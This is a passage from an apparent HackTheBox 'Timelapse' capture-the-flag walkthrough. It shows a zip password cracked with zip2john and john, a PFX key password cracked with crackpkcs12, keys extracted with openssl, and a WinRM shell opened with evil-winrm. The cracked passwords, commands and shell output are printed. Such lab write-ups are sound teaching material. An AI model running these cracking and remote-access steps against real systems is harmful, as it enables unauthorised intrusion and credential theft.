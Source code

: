 ![zip password](https://user-images.githubusercontent.com/58801547/161912620-b85ab69e-cd31-425e-a163-9c8c201a7e76.png)
> Password protection boi. So, let's crack it

Used `zip2john` to convert zip into a hash format that `johntheripper` can crack.
`zip2john winrm_backup.zip > hash`

Then use `john` with wordlist `rockyou.txt`
```
winrm_backup.zip/legacyy_dev_auth.pfx:supremelegacy:legacyy_dev_auth.pfx:winrm_backup.zip::winrm_backup.zip

1 password hash cracked, 0 left
```
> The password is `supremelegacy`

After extracting files, I got `legacyy_dev_auth.pfx` looks like it was an SSL-certificate file that you can use to authentication with the webserver or maybe `winrm`; then I tried to open it.

![image](https://user-images.githubusercontent.com/58801547/161914639-6e34e150-3466-4e42-973d-f7e1f05e6b51.png)
> Yikes, another password protection (for private key), Let's crack it again.

This time I use `crackpkcs12` program from github. Thanks to **Aestu** & **MarcoFalke**.

![crackpkcs12](https://user-images.githubusercontent.com/58801547/161916344-ed68aab6-5f53-4b22-97f9-d5b9214d672b.png)
> The password to unlock SSL-certificate is `thuglegacy`

After examine the certificate look like it purpose was to authenticate to the `winrm`.

![certificate details](https://user-images.githubusercontent.com/58801547/161916573-2e68fd70-18a0-4749-b49f-d1ba9d9a44a4.png)

I need `public key` and `private key` to authenticate to winrm but now I already got them I just need to extract them from certificate file.

Now, I got enough informations to obtain the shell users. Let's go to exploitation part.

## Exploitation

Public Key: `openssl pkcs12 -in legacyy_dev_auth.pfx -out cert.pem`

Private Key: `openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -nodes -out key.pem`

Use `evil-winrm` with both keys connected to the target machine.

```
3cat@kali:~/Desktop/HTB/Timelapse$ evil-winrm -i 10.10.11.152 -S -c kuy.cer -k kuy.key

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Warning: SSL enabled

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\legacyy\Documents> ls
*Evil-WinRM* PS C:\Users\legacyy\Documents> whoami
timelapse\legacyy
*Evil-WinRM* PS C:\Users\legacyy\Documents>
```
> got legacyy users and user flag
